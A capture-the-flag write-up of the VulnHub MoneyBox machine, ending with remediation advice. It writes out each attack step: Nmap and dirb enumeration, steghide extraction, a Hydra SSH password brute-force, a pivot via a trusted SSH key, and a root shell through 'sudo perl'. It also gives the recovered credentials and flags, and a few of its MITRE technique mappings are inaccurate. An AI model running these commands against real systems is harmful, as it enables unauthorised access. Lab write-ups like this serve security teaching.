

# MoneyBox — CTF Write-Up

**Author:** N Kranthi Kumar  
**Date:** 20 July 2026  
**Platform:** VulnHub — [MoneyBox: 1](https://www.vulnhub.com/entry/moneybox-1,653/)  
**Difficulty:** Easy / Medium  

---

## 🎯 Objective

Gain root access to the MoneyBox virtual machine by chaining a series of misconfigurations across FTP, web, steganography, SSH trust relationships, and sudo privileges. The attack path required:

1. Enumerating services via netdiscover and Nmap
2. Extracting hidden messages from web page source and an image via steganography
3. Brute-forcing SSH credentials for a numeric-password user
4. Abusing SSH public key trust to pivot to a second user
5. Exploiting a misconfigured `sudo` rule with Perl to escalate to root

Three flags were to be captured: `user1.txt`, `user2.txt`, and the root flag.

---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| netdiscover | ARP-based host discovery on local subnet |
| Nmap 7.99 | Service enumeration & OS fingerprinting |
| dirb | Web directory brute-force |
| ftp (client) | Anonymous FTP login & file retrieval |
| steghide / StegSeek | Steganographic data extraction from image |
| Hydra | SSH password brute-force |
| SSH (OpenSSH) | Remote shell & lateral movement |
| Perl | Privilege escalation via sudo |

---

## 🕵️‍♂️ Methodology & Exploitation

### Phase 1 — Host Discovery

The target VM was on the local subnet. `netdiscover` was used to identify its IP address via ARP scanning.

```
IP            At MAC Address     Count   MAC Vendor
192.168.1.37  08:00:27:7a:38:71  1       PCS Systemtechnik GmbH (VirtualBox)
```

The MAC address `08:00:27:*` confirmed it as a VirtualBox VM — the target was `192.168.1.37`.



---

### Phase 2 — Service Enumeration

A full-port Nmap scan with service detection and OS fingerprinting was performed.

```bash
nmap -A -p- 192.168.1.37
```

**Error encountered:** The initial command `nmap -a -p-` failed — `-a` is an ambiguous flag that matches multiple options. The correct flag is `-A` (uppercase) for OS detection + version scanning.

**Results:**

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | FTP | vsftpd 3.0.3 |
| 22/tcp | SSH | OpenSSH 7.9p1 (Debian 10+deb10u2) |
| 80/tcp | HTTP | Apache httpd 2.4.38 (Debian) |

**Key observations:**
- FTP allowed **anonymous login** — the scan explicitly reported `Anonymous FTP login allowed (FTP code 230)`.
- A single file `trytofind.jpg` (1,093,656 bytes) was visible on the FTP share.
- The server was Debian 10 running kernel 4.19.0-14-amd64.


---

### Phase 3 — Web Enumeration & Source Code Analysis

dirb was used to enumerate web directories on port 80.

```bash
dirb http://192.168.1.37/
```

**Results:**

| Path | Status | Size |
|------|--------|------|
| `/index.html` | 200 | 621 bytes |
| `/blogs/` | 200 | 353 bytes |
| `/server-status` | 403 | Forbidden |

Browsing to `http://192.168.1.37/` revealed a message from a self-proclaimed hacker "T0m-H4ck3r" who claimed to have already compromised the box. The page source contained an **HTML comment with a critical hint**:

```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

Navigating to `http://192.168.1.37/S3cr3t-T3xt/` revealed another HTML comment:

```html
<!--Secret Key 3xtr4ctd4t4 -->
```

This key would later be relevant for the steganography phase.


---

### Phase 4 — FTP Anonymous Access & Image Extraction

Anonymous login was used to access the FTP server and retrieve the only file available:

```bash
ftp 192.168.1.37
Name: Anonymous
Password: (any/blank)
ftp> get trytofind.jpg
```

The filename itself was a hint: `trytofind.jpg` — suggesting hidden data needed to be found.


---

### Phase 5 — Steganography Extraction

Two tools were used to extract hidden data from the image.

**Attempt 1 — StegSeek:**

```bash
stegseek --seed trytofind.jpg
```

StegSeek found a possible seed `22f61b09` and extracted `trytofind.jpg.out` (149 bytes compressed), but the output was not immediately readable.

**Attempt 2 — steghide (Successful):**

The passphrase `3xtr4ctd4t4` (discovered from the HTML source comment in Phase 3) was used with steghide:

```bash
steghide --extract -sf trytofind.jpg
Enter passphrase: 3xtr4ctd4t4
```

**Result:** A file named `data.txt` was extracted:

```
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

**Critical intelligence:**
- A username was revealed: **`renu`**
- The password was explicitly described as **"too weak"** — confirming a brute-force attack would succeed


---

### Phase 6 — SSH Brute-Force (renu)

With the username `renu` and the explicit confirmation of a weak password, Hydra was used against SSH.

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt.gz 192.168.1.37 ssh
```

Hydra issued a warning about SSH connection limits (`[WARNING] Many SSH configurations limit the number of parallel tasks`), but the attack completed quickly.

**Result:**

| Field | Value |
|-------|-------|
| Username | `renu` |
| Password | `987654321` |

The password was a predictable numeric sequence (`987654321`) — confirming the "too weak" warning from `data.txt`. No alpha, special, or mixed-case characters.


---

### Phase 7 — Initial Access & User1 Flag

SSH login as `renu`:

```bash
ssh renu@192.168.1.37
Password: 987654321
```

**System Reconnaissance:**

| Command | Output |
|---------|--------|
| `uname -a` | Linux MoneyBox 4.19.0-14-amd64 (Debian 10) |
| `cat /etc/issue` | Debian GNU/Linux 10 |
| `id` | uid=1001(renu) gid=1001(renu) |
| `ls /home` | lily, renu |

**user1.txt captured:**

```
Yes...!
You Got it User1 Flag
==> us3r1{F14g:0ku74tbd3777y4}
```

**User1 Flag:** `us3r1{F14g:0ku74tbd3777y4}`


---

### Phase 8 — Discovery of Lily's SSH Authorized Keys

Navigating to `/home/lily` revealed that her `.ssh` directory was **world-readable**:

```bash
renu@MoneyBox:/home/lily/.ssh$ ls -la
-rw-r--r-- 1 lily lily 571 Feb 26  2021 authorized_keys
renu@MoneyBox:/home/lily/.ssh$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
```

**Critical finding:** The `authorized_keys` file contained `renu`'s public key. This meant `renu` could SSH into `lily`'s account **without a password** — a trust relationship that turned the lateral movement into a single command.

Additionally, `user2.txt` was readable in lily's home directory:

```
==> us3r{F14g:tr5827r5wu6nklao}
```

**User2 Flag:** `us3r{F14g:tr5827r5wu6nklao}`

---

### Phase 9 — Lateral Movement to Lily

```bash
ssh lily@127.0.0.1
```

The connection succeeded without a password prompt because renu's SSH key was trusted by lily's account. Once logged in as `lily`, the `sudo -l` command revealed a critical misconfiguration:

```
User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: ALL
```

Lily had **unrestricted sudo access** with no password requirement — any command could be run as root.


---

### Phase 10 — Privilege Escalation to Root

Perl was used to spawn a shell with elevated privileges:

```bash
sudo perl -e 'exec "/bin/sh";'
```

**Error encountered:** Running `perl -e 'exec "/bin/sh";'` without `sudo` first simply spawned another shell as `lily`. The `sudo` prefix was required to escalate.

The command succeeded, dropping into a root shell:

```bash
# whoami
root
# cd /root
# ls -ltra
-rw-r--r-- 1 root root 228 Feb 26  2021 .root.txt
# cat .root.txt

Congratulations.......!

You Successfully completed MoneyBox

Finally The Root Flag
    ==> r00t{H4ckth3p14n3t}
```

**Root Flag:** `r00t{H4ckth3p14n3t}`


---

### Summary of Captured Flags & Credentials

| Stage | Credential / Flag | Method |
|-------|-------------------|--------|
| Web source | `3xtr4ctd4t4` (steghide passphrase) | HTML comment in `/S3cr3t-T3xt/` |
| Steganography | Username `renu` | steghide on `trytofind.jpg` |
| SSH brute-force | `renu`:`987654321` | Hydra + rockyou.txt |
| user1.txt | `us3r1{F14g:0ku74tbd3777y4}` | Read as `renu` |
| user2.txt | `us3r{F14g:tr5827r5wu6nklao}` | Read as `renu` via world-readable home dir |
| Lateral movement | SSH to `lily@127.0.0.1` | renu's key trusted in lily's `authorized_keys` |
| root | `r00t{H4ckth3p14n3t}` | `sudo perl` with `NOPASSWD: ALL` |

---

## 🛡️ Mitigation & Remediation

### 1. Anonymous FTP Access

**Vulnerability:** vsftpd allowed anonymous login, exposing `trytofind.jpg` to unauthenticated users. This image contained steganographically hidden data that revealed a valid username and password intelligence.

**Remediation:**
- Disable anonymous FTP by setting `anonymous_enable=NO` in `/etc/vsftpd.conf`.
- If anonymous access is required for a public-facing directory, restrict it to a chroot'd directory with no sensitive files and `anon_world_readable_only=YES`.
- Monitor FTP logs for anonymous login patterns.

### 2. Steganography as a Data Leak Vector

**Vulnerability:** Sensitive operational data (a username and password quality assessment) was hidden inside an image file accessible via anonymous FTP. While steganography obscured the data, the extraction passphrase was discoverable in a web page source comment nearby.

**Remediation:**
- Never store credentials or user intelligence in files served over FTP or HTTP — regardless of whether they are obfuscated.
- Steganography is not encryption; it provides no cryptographic security guarantee. Treat hidden data with the same sensitivity as cleartext.
- If images must contain metadata, strip EXIF and embedded comments before public distribution using `exiftool -all= image.jpg`.

### 3. Weak Password Policy

**Vulnerability:** The user `renu` used a purely numeric, sequential password (`987654321`) that was cracked in seconds by Hydra against a dictionary wordlist.

**Remediation:**
- Enforce password complexity via PAM `pam_pwquality.so`: minimum 8 characters with mixed character types. Reject purely numeric passwords.
- Implement account lockout via `fail2ban` to mitigate online brute-force attacks against SSH.
- Deploy SSH public-key authentication as the primary method and disable password authentication (`PasswordAuthentication no` in `sshd_config`) for all non-interactive accounts.

### 4. World-Readable Home Directory & SSH Keys

**Vulnerability:** Lily's home directory and `.ssh` folder were readable by other users (`drwxr-xr-x`), exposing `authorized_keys`. This allowed `renu` to read the file, identify her own key was trusted, and SSH to lily without a password.

**Remediation:**
- Set correct home directory permissions: `chmod 750 /home/lily` and `chmod 700 /home/lily/.ssh`.
- Regularly audit home directory permissions with a script or `aide`.
- Review SSH `authorized_keys` files across all users to identify unintended trust relationships — no user should trust a key belonging to a lower-privilege account.

### 5. Unrestricted Sudo Access (NOPASSWD: ALL)

**Vulnerability:** The user `lily` had `(ALL : ALL) NOPASSWD: ALL` in sudoers — complete, passwordless root access. This is the equivalent of giving root to any process running as lily.

**Remediation:**
- Replace the blanket `ALL` rule with a **whitelist of specific commands** that lily actually needs:
  ```
  lily ALL=(ALL) NOPASSWD: /usr/bin/systemctl restart apache2, /usr/bin/journalctl
  ```
- Never grant `NOPASSWD: ALL` outside of temporary debugging — and revoke it immediately afterwards.
- Implement sudo session logging via `sudoreplay` for auditing.
- Enforce password re-authentication for all sudo commands by removing `NOPASSWD`.

### 6. Sensitive Information in HTML Comments

**Vulnerability:** The web page source contained HTML comments exposing a hidden directory name (`S3cr3t-T3xt`) and a steganography passphrase (`3xtr4ctd4t4`). Directory listing on `/blogs/` was also enabled.

**Remediation:**
- Never embed secrets, paths, or internal notes in HTML comments — they are served to every client that requests the page.
- Disable directory listing in Apache: `Options -Indexes`.
- Use a static analysis tool in CI/CD to scan for potential secrets in HTML comments and front-end source code.

---

## 🧠 Key Takeaways

### Attack Chain Summary

```
netdiscover → Nmap (FTP/SSH/HTTP) → dirb + HTML source analysis
    → Anonymous FTP → Steganography (username: renu) → Hydra SSH brute-force
    → SSH as renu (user1 flag) → Read lily's authorized_keys → SSH pivot to lily (user2 flag)
    → sudo -l reveals NOPASSWD: ALL → sudo perl → root shell → root flag
```

### Lessons Learned

1. **Steganography is security through obscurity, not security.** The `trytofind.jpg` image required a passphrase to extract — but that passphrase was sitting in an HTML comment on the same machine. When the key is stored next to the lock, you haven't secured anything.

2. **Numeric-only passwords are trivially crackable.** `987654321` is a sequence, not a password. Any wordlist that includes common patterns will find it in seconds. Password policies that allow purely numeric strings are functionally equivalent to no policy at all.

3. **SSH authorized_keys trust is directional — and dangerous when direction points up.** Lily trusted renu's key, meaning a lower-privilege user (`renu`, uid 1001, no sudo) could escalate to a higher-privilege user (`lily`, uid 1000?, full sudo without password). This is the security equivalent of giving your neighbour a key to your house because you trust them — forgetting they already trusted you with their house key.

4. **`NOPASSWD: ALL` is a nuclear option, not a convenience.** The entire box from lily to root took two commands: `sudo -l` (reconnaissance) and `sudo perl -e 'exec "/bin/sh";'` (exploitation). There is no legitimate operational need for any non-root user to have unrestricted, passwordless sudo.

5. **The attack surface expanded with each phase, but the core weakness was the same: information leaks.** HTML comments leaked the hidden directory. That directory leaked the steghide passphrase. The image leaked the username. The password policy leaked the password. The SSH trust leaked lily. The sudoers file leaked root. Every step was an information leak, not a zero-day.

### MITRE ATT&CK Mapping

| Tactic | Technique | Phase |
|--------|-----------|-------|
| Reconnaissance | Active Scanning (T1595) | Phases 1–3 |
| Resource Development | Acquire Infrastructure (T1583) | Phase 4 (FTP) |
| Initial Access | Exploit Public-Facing Application (T1190) | Phase 6 (SSH brute-force) |
| Collection | Data from Local System (T1005) | Phases 7–8 |
| Credential Access | Brute Force: Password Guessing (T1110.001) | Phase 6 |
| Credential Access | Unsecured Credentials: SSH Private Keys (T1552.004) | Phase 8 |
| Lateral Movement | Use Alternate Authentication Material (T1550) | Phase 9 |
| Privilege Escalation | Sudo and Sudo Caching (T1548.003) | Phase 10 |
| Discovery | System Information Discovery (T1082) | Phase 7 |

---

*This write-up is intended for educational and CTF documentation purposes only. All techniques described were performed in an authorised lab environment. MoneyBox was created by Kirthik Karvendhan as a beginner-to-intermediate VulnHub challenge.*
